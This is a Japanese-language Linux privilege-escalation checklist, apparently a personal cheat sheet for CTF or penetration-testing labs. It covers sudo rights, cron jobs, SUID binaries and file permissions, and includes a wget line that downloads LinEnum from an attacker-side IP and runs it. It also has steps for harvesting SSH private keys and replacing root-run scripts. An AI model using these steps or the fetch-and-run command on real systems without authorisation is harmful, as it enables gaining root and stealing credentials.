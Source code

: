 # Linux Privilege Escalation Flow

## 実行フロー
1. sudo -l の実行
2. LinEnum の実行
3. ホームディレクトリの確認
4. Cron の確認
5. SUID / SGID の確認
6. Bash のバージョン確認
7. Sudo のバージョン確認
8. 機密ファイルのパーミッション確認


## 1. sudo -l の実行
### root 権限で実行可能なコマンドが存在する場合
[GTFOBins](https://gtfobins.github.io/) で検索

### ユーザー環境から継承された環境変数が存在する場合
- LD_PRELOAD が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#ld_preload-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)  
- LD_LIBRARY_PATH が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

## 2. LinEnum の実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; /tmp/LinEnum.sh
```

## 3. ホームディレクトリの確認
- [ ] 他のユーザーは存在するか
- [ ] ディレクトリにアクセスできるか
- [ ] SSH 秘密鍵は取得できるか
- [ ] 手がかりとなるファイルは存在するか
- [ ] フラグとなるファイルは存在するか

## 4. Cron の確認
- [ ] Crontab に怪しいファイルは存在するか
- [ ] 指定方法はスクリプト名 or 絶対パス
- [ ] スクリプトは root 権限で実行されるか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

存在する場合...
### 4-1. 指定方法がスクリプト名（絶対パスでない）の場合
環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)

### 4-2. 指定方法が絶対パスの場合
#### スクリプトの置き換え / 書き換え
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

#### スクリプト内容の確認
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合  
実行されているプログラム（コマンド）の確認
```
strings [FILE]
```

指定方法がコマンド名（絶対パスでない）の場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

指定方法が絶対パスの場合
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

※ 内部でワイルドカードが利用されている場合：[こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E3%83%AF%E3%82%A4%E3%83%AB%E3%83%89%E3%82%AB%E3%83%BC%E3%83%891)

#### 読み込まれている共有ライブラリの確認
・環境変数 LD_LIBRARY_PATH が利用できる場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

・環境変数 LD_LIBRARY_PATH が利用できない場合: [こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)  
読み込みエラーになっている共有ライブラリのうち、ディレクトリ、ファイルのいずれかに書き込み権限がないか確認。

- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

## 5. SUID / SGID の確認
- [ ] 既存の脆弱性（Exim <= 4.84-3 など）は存在するか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

大部分は「4. Cron の確認」の「4-2. 指定方法が絶対パスの場合」を参照。

<!-- ・ディレクトリ、ファイルに書き込み権限がある場合  
共有オブジェクトの利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)

・内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合  
環境変数の利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0) -->

<!-- <dl>
  <dt>ディレクトリ、ファイルに書き込み権限がある場合</dt>
  <dd>共有オブジェクトの利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8">こちら</a></dd>
  <dt>内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合</dt>
  <dd>環境変数の利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0">こちら</a></dd>
</dl> 
-->

## 6. Bash のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E3%82%B7%E3%82%A7%E3%83%AB%E3%81%AE%E4%BB%95%E6%A7%98-1)

## 7. Sudo のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E3%83%90%E3%83%BC%E3%82%B8%E3%83%A7%E3%83%B3%E3%82%92%E7%A2%BA%E8%AA%8D)

## 8. 機密ファイルのパーミッション確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privesc.md#%E6%A9%9F%E5%AF%86%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%81%AE%E3%83%91%E3%83%BC%E3%83%9F%E3%83%83%E3%82%B7%E3%83%A7%E3%83%B3%E7%A2%BA%E8%AA%8D)

